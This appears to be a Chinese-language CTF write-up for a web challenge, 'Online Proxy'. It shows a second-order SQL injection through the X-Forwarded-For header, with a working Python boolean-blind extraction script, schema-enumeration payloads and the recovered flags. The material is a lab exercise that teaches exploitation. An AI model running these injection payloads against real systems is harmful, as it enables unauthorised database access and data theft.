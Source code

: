 ![[Pasted image 20230219102937.png|500]]

```
/
```

```
欢迎使用 Online Proxy。使用方法为 /?url=，例如 /?url=https://baidu.com/。  
为了保障您的使用体验，我们可能收集您的使用信息，这些信息只会被用于提升我们的服务，请您放心。
```

```
/?url=https://baidu.com/
```

![[Pasted image 20230219103145.png|800]]

![[Pasted image 20230219103535.png|500]]

响应包的结尾出现了奇怪的东西

显示的是内网地址，推测可以通过`X-Forwarded-For`头控制回显

```http
X-Forwarded-For: php_wa_saikou!
```

![[Pasted image 20230219103842.png|500]]

```http
X-Forwarded-For: aba
```

![[Pasted image 20230219105717.png|500]]

这里看wp说是存在二次注入，后台维护一对`currentIp`和`lastIp`，每次访问`ip`和最近一次不同就往后推，并且插入数据库

1. 令第一次`XFF`内容为`sql`注入文本，经过转义后作为`currentIp`
2. 令第二次`XFF`内容为不同的文本，使得未转义的`currentIp`作为`lastIp`拼接成查询
3. 令第三次`XFF`内容与第二次相同，则`lastIp`的值回显

```python
import requests
import time
from sys import stdout

url = 'http://node4.buuoj.cn:29528/'

payloads = ["0' or (ascii(substr((select group_concat(schema_name) from information_schema.schemata), {}, 1)) > {}) or '0", 'z', 'z']

success = lambda response: 'Last Ip: 1' in response.text

index = 0
while True:
    session = requests.sessions.Session()
    index += 1
    left = 0
    right = 127
    while left < right:
        time.sleep(0.3)
        mid = (left + right) // 2
        response = [
            session.get(
                url, headers={'X-Forwarded-For': payload.format(index, mid)})
            for payload in payloads
        ][-1]
        if success(response): # mid < nth_char
            left = mid + 1
        else:
            right = mid
    print(chr(left), end='')
    stdout.flush()
```

```
information_schema,ctftraining,mysql,performance_schema,test,ctf,F4l9_D4t4B45e
```

```
0' or (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='F4l9_D4t4B45e'), {}, 1)) > {}) or '0
```

```
F4l9_t4b1e
```

```
0' or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='F4l9_t4b1e'), {}, 1)) > {}) or '0
```

```
F4l9_C01uMn
```

```
0' or (ascii(substr((select group_concat(F4l9_C01uMn) from F4l9_D4t4B45e.F4l9_t4b1e), {}, 1)) > {}) or '0
```

```
flag{G1zj1n_W4nt5_4_91r1_Fr1end},flag{527fe9cc-7ec6-4a39-92dd-7650feb095ca}
```

#Web #HTTP #Header #xff #SQL注入 #二次注入 #布尔盲注 